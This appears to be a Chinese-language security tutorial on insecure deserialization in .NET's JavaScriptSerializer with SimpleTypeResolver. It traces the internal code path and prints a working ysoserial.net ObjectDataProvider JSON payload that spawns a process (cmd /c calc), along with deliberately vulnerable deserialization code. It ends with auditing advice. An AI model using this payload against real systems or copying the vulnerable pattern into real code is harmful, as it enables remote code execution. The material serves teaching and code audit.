# JavaScriptSerializer

JavaScriptSerializer是微软内部自带的api，可以在对象和json字符串之前来回转换。其命名空间位于System.Web.Script.Serialization，结构如下：



# demo

序列化反序列化demo

```csharp
using System;
using System.Web.Script.Serialization;

namespace JavaScriptDeserialize
{
    class Person
    {
        public string Name { get; set; }

    }
    class Program
    {
        static void Main(string[] args)
        {
            // no SimpleTypeResolver
            Person person = new Person() { Name = "jack" };
            JavaScriptSerializer serializer = new JavaScriptSerializer();
            string v = serializer.Serialize(person);
            Console.WriteLine(v);
            Person p = serializer.Deserialize<Person>(v);
            Console.WriteLine(p.Name);

            // SimpleTypeResolver
            JavaScriptSerializer serializerWithType = new JavaScriptSerializer(new SimpleTypeResolver());
            string v1 = serializerWithType.Serialize(person);
            Console.WriteLine(v1);
            Person p1 = serializerWithType.Deserialize<Person>(v1);
            Console.WriteLine(p1.Name);
            Console.ReadKey();
        }
    }
}
```

输出

```json
{"Name":"jack"}
jack
{"__type":"JavaScriptDeserialize.Person, JavaScriptDeserialize, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","Name":"jack"}
jack
```

产生漏洞的原因是在构造函数有两个参数的重载：`public JavaScriptSerializer(JavaScriptTypeResolver resolver)`，其中JavaScriptTypeResolver参数是一个类型解析器，可在序列化字符串中自定义类型的元数据程序集限定名称。

当构造函数使用SimpleTypeResolver参数时，序列化的json中会带有type信息，反序列化时就有漏洞隐患。反序列化方法有三个：



这三个方法都是对`internal static object Deserialize(JavaScriptSerializer serializer, string input, Type type, int depthLimit)`的一个封装



调用BasicDeserialize



继续调用DeserializeInternal



然后



根据节点标签不同的类型进入不同的反序列化实现，当节点标签是Object类型时，先DeserializeDictionary拿到键值对字典，如果包含了`__type`字段，则会进入ConvertObjectToType转换类型。然后一层层进入ConvertObjectToTypeInternal



ConvertObjectToTypeInternal中又会进入ConvertDictionaryToObject



在ConvertDictionaryToObject中，当满足`if (serializer.TypeResolver != null)`类型解析器不为空时，尝试获取`__type`字段的值赋值给obj2，然后强转字符串赋值给text变量。然后通过`serializer.TypeResolver.ResolveType(text)`拿到type赋值给type2。



而类型解析器ResolveType中直接使用Type.GetType获取类型，相当于`__type`控制对象类型。



而type2最终通过`Activator.CreateInstance(type2)`创建对应类型实例。



那么我们传入包含`__type`字段的json，就会转为对应类型的对象。

# 攻击链

使用ObjectDataProvider攻击链，通过ObjectDataProvider来创建Process实例。payload如下：

```json
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -f JavaScriptSerializer -g objectdataprovider -c calc
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd', 'Arguments':'/c calc'
        }
    }
}
```

反序列化代码如下

```csharp
using System;
using System.IO;
using System.Web.Script.Serialization;

namespace JavaScriptDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {
            // SimpleTypeResolver
            JavaScriptSerializer serializerWithType = new JavaScriptSerializer(new SimpleTypeResolver());
            serializerWithType.Deserialize<Object>(File.ReadAllText("1.json"));
            Console.ReadKey();
        }
    }
}
```

这里`Deserialize<Object>`用到了Object类型。也可以用其他的Deserialize重载方法。

# 审计

关注传入的json字符串是否可控，以及构造函数中JavaScriptTypeResolver参数，审计自定义类型解析器对于type的校验是否严谨。

# 后文

本文讲解了JavaScriptSerializer序列化api，如果有错误，请指正。

